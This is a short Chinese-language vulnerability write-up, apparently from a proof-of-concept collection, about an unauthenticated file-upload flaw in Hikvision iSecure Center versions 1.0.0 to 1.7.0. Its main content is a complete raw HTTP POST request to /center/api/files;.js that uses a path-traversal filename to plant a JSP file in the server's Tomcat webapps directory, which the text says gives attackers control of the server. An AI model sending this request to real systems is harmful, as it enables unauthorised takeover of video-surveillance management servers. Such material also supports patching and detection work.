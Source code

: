 #### 影响范围

iSecure Center V1.0.0 - V1.7.0

#### 漏洞概述

海康威视股份有限公司是⼀家专业从事视频监控产品的研发、⽣产和销售的 ⾼科技企业。 海康威视iSecure Center综合安防管理平台软件存在⽂件上传漏洞，未经授权的攻击者可以上传恶意Webshell ⽂件从⽽控制服务器

#### 漏洞复现

漏洞POC：

```
POST /center/api/files;.js HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36 Trailer/99.3.7322.23
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: ISMS_8700_Sessionname=9FA2A7863677C005343E941A7DBAB259
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOKldnDPT
Upgrade-Insecure-Requests: 1
Content-Length: 241
Connection: close

------WebKitFormBoundaryOKldnDPT
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/h2.jsp" 
Content-Type: application/octet-stream

shell
------WebKitFormBoundaryOKldnDPT--
```




